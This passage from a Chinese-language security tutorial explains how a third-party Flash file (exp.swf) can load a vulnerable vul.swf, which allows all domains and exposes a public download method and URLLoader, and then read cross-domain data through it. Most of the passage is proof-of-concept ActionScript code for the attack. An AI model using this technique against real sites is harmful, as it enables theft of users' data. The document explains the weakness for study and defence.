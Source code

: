 ```
// vul.swf
public class Vul extends Sprite {

    public var urlLoader:URLLoader = new URLLoader();

    public function download(url:String) : void {
        urlLoader.load(new URLRequest(url));
        ...
    }

    public function Vul() {
        Security.allowDomain('*');
        ...
    }
    ...
}

```

通过第三方 swf，我们将其加载进来。由于 Vul 继承了 Sprite，因此拥有了元素的基因，我们可以从容器中找到它。

同时它也是主类，默认会被添加到 Loader 这个加载容器里。

```
// exp.swf
var loader:Loader = new Loader();
loader.contentLoaderInfo.addEventListener('complete', function(e:Event) : void {
    var main:* = DisplayObjectContainer(loader).getChildAt(0);

    trace(main);    // [object Vul]
});
loader.load(new URLRequest('//swf-site/vul.swf'));

```

因为 Loader 是子 swf 的[默认容器](http://help.adobe.com/zh_CN/FlashPlatform/reference/actionscript/3/flash/system/LoaderContext.html#requestedContentParent)，所以其中第一个元素显然就是子 swf 的主类：Vul。

由于 Vul 定义了一个叫 download 的公开方法，并且授权了所有的域名，因此在第三方 exp.swf 里，自然也能调用它：

![](http://drops.javaweb.org/uploads/images/cb9521ac90e3407dcf79e2855f80e2db005baf8d.jpg)

```
main.download('//swf-site/data');

```

同时 Vul 中的 urlLoader 也是一个公开暴露的成员变量，同样可被外部访问到，并对其添加数据接收事件：

```
var ld:URLLoader = main.urlLoader;
ld.addEventListener('complete', function(e:Event) : void {
    trace(ld.data);
});

```
